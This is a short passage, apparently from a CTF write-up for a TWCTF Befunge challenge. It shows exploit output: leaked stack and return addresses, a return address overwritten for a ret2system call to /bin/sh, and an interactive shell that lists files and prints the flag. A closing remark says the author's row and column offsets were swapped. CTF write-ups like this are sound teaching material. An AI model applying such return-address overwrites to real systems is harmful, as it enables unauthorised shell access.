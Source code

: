 [*] Stack: 0x7fffc30b4528
[*] Offset_y : 0x86d519e30c
[*] Offset_x : 0x38
[*] Ret: 0x7fbb797c3f45
[*] Return value overwritten
[*] Argument ptr to /bin/sh
[*] ret2system
[*] Switching to interactive mode
Too many steps. Is there any infinite loops?
$ ls
befunge
flag
$ cat flag
TWCTF{It_1s_eMerG3nCy}
Time out
[*] Got EOF while reading in interactive
$
{% endhighlight %}

> P.S. Sorry but the coordinates are switched, `Offset_x` should be the row and `Offset_y` should be the column, in my code they are reversed.

